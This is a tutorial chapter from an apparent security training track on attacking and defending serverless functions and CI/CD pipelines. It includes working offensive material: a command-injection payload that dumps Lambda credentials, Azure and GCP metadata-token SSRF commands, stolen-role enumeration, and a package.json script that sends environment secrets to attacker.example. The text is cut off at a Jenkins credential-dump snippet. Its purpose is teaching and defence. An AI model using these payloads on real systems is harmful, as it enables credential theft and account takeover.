







**Level:** Expert · **Track:** Cloud Security · **Read time:** 355 min

This is Chapter 8 of the Cloud Security notebook. The previous chapter took apart Kubernetes — the control plane that schedules thousands of containers and the identity-and-authorization failures that turn one pod into cluster-admin. This chapter follows the images *backwards*, to the two systems that produced them in the first place: the **serverless functions** that run business logic without a server the defender can log into, and the **CI/CD pipeline and dependency graph** that build and ship every artefact the organisation deploys. Both are places where a single misconfiguration hands an attacker either an execution role that can read the whole account, or the ability to inject code into every future release.

The single idea to carry through the whole chapter: **you no longer attack the server — you attack the thing that has permission to be the server.** A Lambda function is not a box you get a shell on and keep; it is an ephemeral process wearing an IAM role, and the role is the prize. A CI/CD pipeline is not a build script; it is a highly privileged robot that holds cloud credentials, signing keys, and write access to production, and it will run whatever code arrives in a pull request if you let it. A dependency is not "just a library"; it is arbitrary code you chose to execute with your build's privileges because someone you trust said it was fine. Understand where the trust and the permissions actually live, and both the offensive path (event injection → execution-role abuse → lateral movement; PR → poisoned pipeline → secret theft → production; typosquat → post-install script → build-server implant) and the defensive path (least-privilege roles, OIDC subject pinning, branch protection, signed provenance) stop being magic.

Everything here is for accounts, repositories, and pipelines you own or are explicitly authorised in writing to assess. Injecting into someone else's Lambda, exfiltrating secrets from a CI system you do not control, or publishing a malicious package to a public registry is unauthorised access and, in the supply-chain case, potentially a computer-fraud and wire-fraud offence affecting thousands of downstream victims. Build the local lab in Part 11 in your own cloud account and your own private repositories, or practise on the deliberately-vulnerable ranges named in the final part.

## Why the Pipeline Is the New Perimeter

For twenty years the security perimeter was the network edge: a firewall, a DMZ, a VPN. Serverless and CI/CD dissolved that edge. There is no server to patch, no host to run an EDR agent on that stays alive between requests, and no long-lived box to network-segment. Instead there is a **web of trust and permission**: an event source is trusted to invoke a function, a function's role is trusted by other cloud services, a CI runner is trusted with production credentials, a Git branch is trusted to trigger a deploy, and a package registry is trusted to supply code. Every one of those trust edges is an attack surface, and none of them shows up on a port scan.

That is why this material sits at the *expert* end of the cloud track. The vulnerabilities are almost never memory-corruption bugs; they are **excess privilege and misplaced trust**, expressed in IAM policy JSON, in `.github/workflows/*.yml`, in `package.json`, and in Terraform. They fail silently — an over-permissioned execution role does not error, a `pull_request_target` workflow does not warn you it just handed a fork write access to your secrets, and a typosquatted dependency installs cleanly. And when they are abused, the blast radius is enormous: a compromised build server (SolarWinds) or a compromised popular package (event-stream, ua-parser-js, the xz/liblzma backdoor) reaches every downstream consumer at once.

**Who this is for:** cloud pentesters and red teamers who land in a function or a repo and need to know what to do next; bug-bounty hunters who find an exposed CI artefact, a leaked token, or an SSRF that reaches a cloud metadata endpoint; and blue-teamers, platform engineers, and application-security folk who own the pipeline and need to know what "secure by default" actually means in role scoping, OIDC trust, branch protection, and artefact provenance.

---

## Part 1: The Serverless Execution Model From Scratch

Before you can attack serverless, you have to understand what actually happens when a function runs — because almost every serverless vulnerability is a consequence of one of these mechanics.

**Function-as-a-Service (FaaS)** is a model where you upload a unit of code (a "function") and the cloud provider runs it *on demand*, in response to an *event*, inside a short-lived, isolated execution environment that the provider creates and destroys for you. You do not manage the OS, the runtime patching, the scaling, or the servers. You are billed per invocation and per millisecond of execution. The three you will meet are **AWS Lambda**, **Azure Functions**, and **Google Cloud Functions / Cloud Run functions**; the mechanics are near-identical, so this chapter uses Lambda as the worked example and notes the differences.

Here is the anatomy of a single invocation:



The pieces that matter to an attacker:

- **The event is attacker-influenced data.** Whatever triggers the function — an HTTP request via API Gateway, an object key in S3, a message in SQS, a DynamoDB stream record — becomes the `event` object your handler parses. If the handler passes any part of it into a shell, a SQL query, an `eval`, or a downstream call without validation, that is a classic injection with a serverless twist: the injection runs *with the execution role's permissions*.
- **The execution role is the crown jewel.** Every function assumes an **IAM role** (the "execution role") whose temporary credentials are available to the code — on Lambda via the environment variables `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_SESSION_TOKEN`, and via a credentials endpoint. If you achieve code execution inside the function, you *are* that role. The entire game becomes: how much can this role do?
- **The filesystem is ephemeral except `/tmp`.** The deployment package is mounted read-only. `/tmp` (512 MB by default, up to 10 GB) is writable but is **reused across warm invocations of the same microVM**. That means secrets or web-shells written to `/tmp` can persist across invocations for the lifetime of the warm container — a real persistence primitive.
- **Cold vs warm start.** The first invocation pays a "cold start" to build the microVM. Subsequent invocations reuse the warm environment. Global/module-scope variables persist between warm invocations, which is why leaked state and `/tmp` artefacts survive.
- **There is no shell to keep.** You cannot "get a reverse shell and stay". The environment vanishes. Serverless post-exploitation is therefore about *credentials and reach*, not persistence-on-host.

**Red team usage:** the moment you have any code execution inside a function, dump the environment and the credentials endpoint before anything else — that role is your pivot into the rest of the account. **Blue team usage:** because the credentials are role-based and short-lived, your detection story is CloudTrail on what the role *did*, not host telemetry — there is no host.

### Serverless across the three clouds

| Concept | AWS Lambda | Azure Functions | Google Cloud Functions |
|---|---|---|---|
| Identity the code runs as | IAM **execution role** | **Managed Identity** (system/user-assigned) | **runtime service account** |
| Creds exposed to code | env vars + credentials endpoint `169.254.79.254` (containers) / provider SDK | IMDS `169.254.169.254/metadata/identity/oauth2/token` | metadata server `metadata.google.internal` |
| Secrets store | env vars, SSM Parameter Store, Secrets Manager | App Settings, Key Vault | env vars, Secret Manager |
| Writable path | `/tmp` (reused when warm) | `%TEMP%` / `/tmp`, plus mounted file share | `/tmp` (in-memory tmpfs) |
| Common event sources | API GW, ALB, S3, SQS, SNS, DynamoDB, EventBridge | HTTP trigger, Blob, Queue, Event Grid | HTTP, Pub/Sub, Cloud Storage, Eventarc |
| Metadata SSRF target | `169.254.169.254` (IMDS) | `169.254.169.254` (requires `Metadata:true` header) | `metadata.google.internal` (requires `Metadata-Flavor: Google`) |

The unifying lesson: **on every cloud, a function is code wearing a cloud identity, and every one of them exposes that identity's credentials to the running process.** The attacks rhyme.

---

## Part 2: Attacking Serverless — Event Injection and the Execution Role

Serverless functions get compromised through two broad doors: **the event data** (something the attacker controls flows into a dangerous sink) and **the surrounding configuration** (over-broad role, secrets in env vars, SSRF reachability). This part walks the offensive mechanics with real code.

### 2.1 Event-data injection

The naïve mental model "it's just a function, there's no server to inject into" is wrong. Consider this genuinely common Node.js Lambda behind API Gateway:

```javascript
// handler.js  — VULNERABLE
const { execSync } = require('child_process');

exports.handler = async (event) => {
  const host = event.queryStringParameters.host;      // attacker-controlled
  const out = execSync(`ping -c 1 ${host}`).toString(); // command injection
  return { statusCode: 200, body: out };
};
```

An attacker calls the function's HTTP endpoint:

```bash
curl "https://abc123.execute-api.us-east-1.amazonaws.com/prod/ping?host=8.8.8.8;env"
```

The `;env` breaks out of the `ping` command and dumps the environment — which on Lambda includes the execution role's live credentials:

```text
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=115 time=1.53 ms
...
AWS_ACCESS_KEY_ID=ASIAEXAMPLE7QF3EXAMPLE
AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEJr...<very long>...==
AWS_REGION=us-east-1
AWS_LAMBDA_FUNCTION_NAME=ping-service
DB_PASSWORD=hunter2-from-env
```

Two prizes fell out at once: the **role credentials** and a **secret stored in an environment variable** (`DB_PASSWORD`). This is why "put secrets in env vars" is a serverless anti-pattern — anyone with code execution, and anyone who can read the function configuration via `lambda:GetFunctionConfiguration`, sees them in plaintext.

The same category applies to every dangerous sink, not just shells:

| Event source | Field an attacker controls | Dangerous sink in the handler | Result |
|---|---|---|---|
| API Gateway (HTTP) | query string, body, headers, path | `execSync`, `eval`, SQL string, NoSQL query | RCE / injection as the role |
| S3 `ObjectCreated` | object **key** and metadata | shelling out with the key, path traversal on download | RCE / arbitrary file read |
| SQS / SNS | message body | JSON deserialization, template render (SSTI) | RCE / SSRF |
| DynamoDB stream | item attribute values | downstream query building | injection |
| API GW + XML | request body | XML parser with external entities on | XXE → SSRF → IMDS |

**Bug bounty angle:** on programs that expose serverless HTTP APIs, the highest-value bugs are (a) an injection that leaks the execution-role creds via `env`, and (b) an SSRF in the function that reaches the metadata endpoint. Both are typically rated critical because they escalate from "one function" to "IAM credentials in the account". PortSwigger's SSRF labs and the AWS-specific `169.254.169.254` payload are directly transferable.

### 2.2 From the function to the whole account: abusing the execution role

Once you have the three `AWS_*` values, you become the role from your own machine:

```bash
export AWS_ACCESS_KEY_ID=ASIAEXAMPLE7QF3EXAMPLE
export AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEJr...==

aws sts get-caller-identity
```

```json
{
  "UserId": "AROAEXAMPLE:ping-service",
  "Account": "123456789012",
  "Arn": "arn:aws:sts::123456789012:assumed-role/ping-service-role/ping-service"
}
```

Now the only question is scope. The single most useful enumeration is "what can this role do?" — done by *trying*, because you rarely have `iam:GetRolePolicy`:

```bash
# What buckets can I see?
aws s3 ls
# Can I read other functions' source + env (secrets)?
aws lambda list-functions --query 'Functions[].FunctionName'
aws lambda get-function-configuration --function-name billing-export \
  --query 'Environment.Variables'
# Can I read parameter store / secrets manager?
aws ssm get-parameters-by-path --path / --recursive --with-decryption
aws secretsmanager list-secrets
# Can I assume other, more powerful roles?
aws iam list-roles --query 'Roles[].Arn'    # if allowed
```

The over-permissioned execution role is *the* serverless finding. Developers routinely attach `AdministratorAccess`, or `AmazonS3FullAccess`, or `iam:PassRole` on `*`, to a function "to make it work". Three escalation patterns dominate:

1. **`iam:PassRole` + a service that runs code** (`lambda:CreateFunction`, `glue:CreateJob`, `ec2:RunInstances`) → create a new function/instance with a *more powerful* role attached, invoke it, inherit its creds. This is the classic AWS privilege-escalation chain and it is fully reproducible in **CloudGoat's `iam_privesc_by_rollback` / `lambda_privesc`** scenarios.
2. **Read-secrets everywhere** (`secretsmanager:GetSecretValue` on `*`, `ssm:GetParameter` with `--with-decryption`) → harvest DB creds, third-party API keys, and other roles' bootstrap tokens.
3. **`lambda:UpdateFunctionCode`** on other functions → overwrite a *more* privileged function's code with your own and invoke it (a lateral-movement-via-code-swap that also doubles as persistence).



### 2.3 SSRF from inside a function → metadata

If the function makes an outbound HTTP request to an attacker-controlled URL (a webhook, an image fetch, a URL-preview feature), you may be able to reach the metadata service. On Lambda the *host* IMDS is not directly reachable in the same way as EC2, but functions frequently run inside a VPC alongside EC2 metadata, or the SSRF reaches an internal service that itself exposes credentials. On EC2-backed workloads and on Azure/GCP functions, the metadata endpoint is the direct target:

```bash
# Azure Functions SSRF payload (note the required header)
curl "http://TARGET/preview?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01%26resource=https://management.azure.com/" \
  -H "Metadata: true"

# GCP Cloud Functions SSRF payload
curl "http://TARGET/preview?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" \
  -H "Metadata-Flavor: Google"
```

The response is a bearer token for the function's managed identity / service account — the same "become the identity" outcome as leaking the Lambda env, reached through SSRF instead of injection. **This is the single most important cloud SSRF pattern and it recurs in every cloud pentest.**

### 2.4 `/tmp` persistence and warm-container abuse

Because `/tmp` and module-scope state survive warm invocations, an attacker with code execution can:

- Write a helper binary or a second-stage script to `/tmp` and re-use it on subsequent warm hits.
- Cache stolen credentials or exfiltration state between invocations.
- Poison a shared cache the function keeps in global scope, affecting later legitimate requests handled by the same warm microVM (a serverless equivalent of poisoning a shared process).

This is not durable persistence — the microVM dies within minutes to hours of idleness — but it is enough to survive a burst of traffic and to make exfiltration reliable. **Blue team usage:** treat any write to `/tmp` of an executable or any unexpected outbound connection from a function as high-signal; functions should be effectively deterministic.

### 2.5 Azure Functions and GCP Cloud Functions specifics

The same primitives apply on the other clouds, with different credential-fetch mechanics:

- **Azure Functions** run as a **Managed Identity**. Code (or an SSRF) fetches an access token from the IMDS token endpoint, which requires the `Metadata: true` header and a `resource` parameter naming the target API (e.g. `https://management.azure.com/` for ARM, `https://vault.azure.net` for Key Vault). With a management-scoped token you enumerate the subscription (`az resource list`), and with a Key Vault-scoped token you read every secret the identity can access. Azure's **App Settings** are the env-var equivalent and leak the same way. A frequent misconfiguration is a *user-assigned* managed identity shared across many functions, giving one compromised function the union of everyone's permissions.
- **GCP Cloud Functions** run as a **runtime service account** (by default the over-privileged App Engine default SA unless overridden). The metadata server issues an OAuth token scoped by the SA's IAM roles; from there `gcloud`/REST calls enumerate the project. The classic escalation is a function SA with `roles/editor` (the default) — effectively project-wide write — or the ability to `iam.serviceAccounts.actAs` a more powerful SA, GCP's answer to `PassRole`.

```bash
# Azure: use a stolen management-scoped token
TOKEN=$(curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq -r .access_token)
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://management.azure.com/subscriptions?api-version=2020-01-01" | jq .

# GCP: list what the function SA can reach
TOKEN=$(curl -s -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" | jq -r .access_token)
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://cloudresourcemanager.googleapis.com/v1/projects" | jq .
```

The takeaway holds across all three: **steal the identity token, then enumerate what it can reach and look for a `PassRole`/`actAs`-style pivot to something more powerful.**

---

## Part 3: Tooling for Serverless Assessment (from scratch)

You will lean on a small set of tools. Each is taught here the first time it appears.

### 3.1 The AWS CLI (`aws`)

**What it is:** the official command-line client for the AWS APIs — a thin, scriptable wrapper over the same REST/HTTPS calls the SDKs make. Every action in this chapter that touches AWS goes through it.

**Install on Kali:**

```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o awscli.zip
unzip awscli.zip && sudo ./aws/install
aws --version           # aws-cli/2.x.x Python/3.x ...
```

**Core mechanics.** Credentials come from (in order) environment variables, `~/.aws/credentials` profiles, and instance/role metadata. Key flags you will use constantly:

| Flag | Meaning |
|---|---|
| `--profile NAME` | use a named credential set from `~/.aws/credentials` |
| `--region us-east-1` | target region (many services are regional) |
| `--query 'JMESPath'` | filter/reshape JSON output client-side |
| `--output json\|table\|text` | output format |
| `--no-sign-request` | call without credentials (for public/anonymous resources) |
| `--debug` | print the signed request — invaluable for understanding what a call actually sends |

For enumerating a stolen role, the pattern is "export the three vars, then `aws sts get-caller-identity`, then probe services". `--query` turns noisy output into exactly the field you want, e.g. `--query 'Functions[].FunctionName'`.

### 3.2 Pacu (recap) and `enumerate-iam`

Pacu (taught in Chapter 3) has serverless-relevant modules: `lambda__enum` (pull every function's code and env), `iam__enum_permissions`, and `iam__privesc_scan` (which detects the `PassRole`/`UpdateFunctionCode` chains above automatically). For a lightweight, dependency-free permission probe, **`enumerate-iam`** brute-forces which read-only API calls a set of credentials can make:

```bash
git clone https://github.com/andresriancho/enumerate-iam && cd enumerate-iam
pip install -r requirements.txt
python enumerate-iam.py --access-key ASIA... --secret-key ... --session-token ...
```

It reports each API call the creds are allowed to make — a fast way to map a stolen execution role without tripping `iam:Get*` denials.

### 3.3 `tfsec` / `checkov` — infrastructure-as-code scanners

**What they are:** static analysers for Terraform / CloudFormation / Kubernetes manifests. They flag insecure serverless and pipeline config *before* it is deployed — over-broad IAM, functions with `AdministratorAccess`, public S3, unencrypted secrets. As an attacker you read IaC in a repo to find these fast; as a defender you run them in CI.

```bash
# checkov (pip)
pip install checkov
checkov -d ./infra --compact          # scan a Terraform directory
# tfsec (go binary)
brew install tfsec   # or download the release binary
tfsec ./infra
```

Sample checkov output on a bad Lambda role:

```text
Check: CKV_AWS_111: "Ensure IAM policies does not allow write access without constraints"
  FAILED for resource: aws_iam_role_policy.lambda_exec
  File: /infra/lambda.tf:22-31
    Guide: https://docs.bridgecrew.io/docs/iam_23
```

We will use these tools in the lab and again in Part 9 for defense.

---

## Part 4: CI/CD From Scratch — What a Pipeline Actually Is

A **CI/CD pipeline** (Continuous Integration / Continuous Delivery) is an automated system that, on some trigger (a push, a pull request, a tag, a schedule), checks out your code, runs steps (build, test, scan, package), and often *deploys* the result to an environment. GitHub Actions, GitLab CI, Jenkins, CircleCI, and Azure DevOps are the common implementations. The critical security fact: **a pipeline is the most privileged automated actor in most organisations.** It holds cloud deploy credentials, registry push tokens, code-signing keys, and write access to production — and it executes code, frequently code that arrives from *outside* contributors.

The core anatomy:



Key building blocks and their trust properties:

- **The trigger / event.** Different events run with different privilege. In GitHub Actions, `push` and `pull_request` from a fork run with a **read-only** token and *no* access to secrets by default. But `pull_request_target`, `workflow_run`, and `issue_comment` run in the **context of the base repo** with **write token and secret access** — the single biggest source of CI compromise (see Part 5).
- **The runner / agent.** The machine that executes the job. **GitHub/GitLab hosted runners** are ephemeral and reset per job. **Self-hosted runners** are persistent machines you operate — and if a public repo uses one, an attacker who lands a job on it can leave implants for the *next* job, steal other repos' secrets, and pivot into your network. Self-hosted runners on public repos are a critical misconfiguration.
- **Secrets.** Injected into the job as environment variables or files. They include cloud keys, registry tokens, signing keys, and the VCS token itself. Anything the job can read, code running in the job can exfiltrate.
- **The VCS token.** GitHub Actions injects `GITHUB_TOKEN`, an automatically-scoped credential. Its permissions (`contents: write`, `packages: write`, etc.) determine what a compromised job can do to the repo.
- **OIDC federation.** Modern pipelines avoid long-lived cloud keys by using **OIDC**: the runner presents a short-lived, signed identity token to the cloud, which exchanges it for temporary credentials *if the token's claims match a trust policy*. Misconfigure that trust policy and any repo (or any fork) can assume your cloud role — covered in Part 6.

**The mental shift:** attacking CI/CD is not about exploiting the CI software's binary. It is about getting *your* code to run inside a job that has *someone else's* privileges, then reading everything that job can reach. The umbrella term is **Poisoned Pipeline Execution (PPE)**.

---

## Part 5: Attacking CI/CD — Poisoned Pipelines and Secret Theft

### 5.1 The `pull_request_target` foot-gun (GitHub Actions)

The most exploited CI/CD pattern in the wild. A maintainer wants a workflow to label PRs or comment on them, which needs write permissions — so they use `pull_request_target`, which runs the workflow **from the base branch but with the fork's context available and with full secrets/write token**. If that workflow then *checks out and runs the PR's code*, an attacker's fork gets code execution with the base repo's secrets:

```yaml
# .github/workflows/vulnerable.yml  — DANGEROUS
name: PR Build
on: pull_request_target          # <-- runs with secrets + write token
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # checks out ATTACKER code
      - run: npm install && npm test    # runs attacker-controlled package.json scripts
```

An attacker opens a PR from a fork whose `package.json` contains:

```json
{
  "scripts": {
    "test": "curl -s https://attacker.example/x -d \"$(env | base64)\""
  }
}
```

When the workflow runs, `npm test` executes the attacker's `test` script inside the privileged job, and `env` contains every secret injected into that job — cloud keys, the `GITHUB_TOKEN`, registry credentials — base64-encoded and shipped out. The attacker never needed write access to the repo; **opening a pull request was enough.**



**Fixes** (used again in Part 9): never `pull_request_target` + checkout of PR code together; if you must, checkout only trusted files, require label-gating, and keep secrets out of the untrusted job. GitHub's own security-lab writeups and the "GitHub Actions exploitation" research from firms like Praetorian document dozens of real occurrences.

### 5.2 Poisoned Pipeline Execution via config-as-code

Because the pipeline definition often lives *in the repo* (`.github/workflows`, `.gitlab-ci.yml`, `Jenkinsfile`), anyone who can modify those files on a branch that triggers CI can change what the pipeline does. Variants:

- **Direct PPE:** attacker has write to a branch and edits the workflow to dump secrets. (Insider or compromised contributor.)
- **Indirect PPE (the dangerous one):** attacker cannot edit the workflow, but the workflow runs a file they *can* edit — a `Makefile`, a `package.json` script, a test file, a `terraform` module, a build script. Editing that file achieves execution without touching the workflow YAML. This is why "only maintainers can edit workflows" is *not* sufficient protection.

### 5.3 Unprotected self-hosted runners

If a **public** repository uses a **self-hosted runner**, any external contributor whose PR triggers a job on that runner gets code execution on a persistent machine that also serves other jobs. Consequences: steal secrets from concurrent/subsequent jobs, install a persistent implant, pivot into the internal network the runner sits in, and abuse the runner's cloud identity. GitHub explicitly warns against self-hosted runners on public repos for exactly this reason.

```bash
# Recon a checked-out repo for CI weaknesses
grep -rEi "pull_request_target|workflow_run|self-hosted" .github/ .gitlab-ci.yml
grep -rEi "runs-on:.*self-hosted" .github/workflows/
# List secrets *referenced* (names leak intent even if values don't)
grep -rEo "secrets\.[A-Z_]+" .github/workflows/
```

### 5.4 Secret exfiltration and log scraping

Even without full RCE, CI leaks secrets in many ways: `set -x` echoing a token, an `env` dump in a debug step, secrets printed by a failing tool, artefacts that bundle `.env` files, and cache poisoning. A compromised job can also read the *entire filesystem* including cloned private submodules and cached credentials from prior steps.

### 5.5 GitLab CI-specific mechanics

GitLab CI (`.gitlab-ci.yml`) has the same PPE model with different names, and a few sharp edges of its own:

- **CI/CD variables** are the secret store. Variables marked *protected* are only exposed on **protected branches/tags**, and *masked* variables are hidden in job logs (but masking is a display filter, not a security boundary — a job can still read the value and exfiltrate it). A common finding is a sensitive variable left *unprotected*, so it is exposed to a merge-request pipeline from a fork.
- **Merge-request pipelines from forks** are the `pull_request_target` analogue. By default, protected variables are *not* passed to fork MR pipelines — but projects that toggle "Run pipelines for fork merge requests" carelessly, or that use `rules:` to run privileged jobs on MR events, reintroduce the exact fork-code-with-secrets hazard.
- **`include:` from remote/other projects** pulls pipeline definitions across trust boundaries; a compromised included template runs in your pipeline.
- **The `CI_JOB_TOKEN`** is GitLab's auto-injected credential (analogous to `GITHUB_TOKEN`). Historically it had broad access to other projects the pipeline's user could reach — an over-scoped `CI_JOB_TOKEN` lets a compromised job clone or push to *other* private repos. Lock its allowlist down.

```yaml
# .gitlab-ci.yml — DANGEROUS: privileged job runs on untrusted MR code
deploy:
  script:
    - echo "$AWS_SECRET_ACCESS_KEY" | some-deploy-tool   # secret exposed
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"    # fork MR can trigger
```

```bash
# Recon a checked-out GitLab repo
grep -rEi "CI_JOB_TOKEN|rules:|merge_request_event|include:" .gitlab-ci.yml
grep -rEo "\$[A-Z_]+" .gitlab-ci.yml    # variables referenced (intent leak)
```

**Blue team usage:** mark every sensitive CI/CD variable *protected* and *masked*, disable fork MR pipelines for projects with production secrets, and scope `CI_JOB_TOKEN`'s inbound/outbound allowlist to the minimum set of projects.

### 5.6 Jenkins-specific classics

Jenkins deserves its own note because it is old, powerful, and everywhere. Common findings: an **unauthenticated Script Console** at `/script` (Groovy → instant RCE as the Jenkins user), the **`/env-vars.html`** and build-log secret leakage, over-broad **agent-to-controller** trust, and credentials stored with reversible encryption in `credentials.xml`. The Script Console payload that dumps all stored credentials is a well-known red-team move:

```groovy
// Jenkins Script Console (/script) — decrypt stored credentials
